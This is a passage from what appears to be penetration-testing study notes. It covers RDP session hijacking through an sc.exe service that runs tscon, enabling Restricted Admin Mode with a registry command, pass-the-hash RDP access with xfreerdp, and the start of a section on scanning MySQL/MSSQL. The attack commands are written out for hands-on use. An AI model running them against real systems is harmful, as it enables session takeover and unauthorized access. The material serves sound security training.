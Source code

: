 If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or [Mimikatz](https://github.com/gentilkiwi/mimikatz). We will use **Microsoft sc.exe** binary. First, we specify the service name (**sessionhijack**) and the **binpath**, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.
```console
C:\zeropio> query user 

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\zeropio> sc.exe create sessionhijack binpath= "cmd.exe /k tscon <ID> /dest:rdp-tcp#<NUMBER>"
```

To run the command, we can start the **sessionhijack** service:
```console
C:\zeropio> net start sessionhijack
```

### RDP Pass-the-Hash (PtH)

In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like xfreerdp. **Restricted Admin Mode**, which is disabled by default, should be enabled on the target host. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (**REG_DWORD**) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`{: .filepath}. It can be done using the following command:
```console
C:\zeropio> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option `/pth` to gain RDP access:
```console
xfreerdp /v:<TARGET> /u:<USER> /pth:<HASH>
```

---

# SQL Databases 

**MySQL** and **Microsoft SQL Server** (**MSSQL**) are relational database management systems that store data in tables, columns, and rows. By default, MSSQL uses port **TCP/1433**, and MySQL uses **TCP/3306**.
```console
zero@pio$ nmap -Pn -sVC -p 1433,3306 <TARGET>
```

MSSQL supports two authentication modes, which means that users can be created in Windows or the SQL Server:

| **Authentication Type**   | **Description**    |
|--------------- | --------------- |
| Windows authentication mode | This is the default, often referred to as integrated security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. |
| Mixed mode | Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server. |

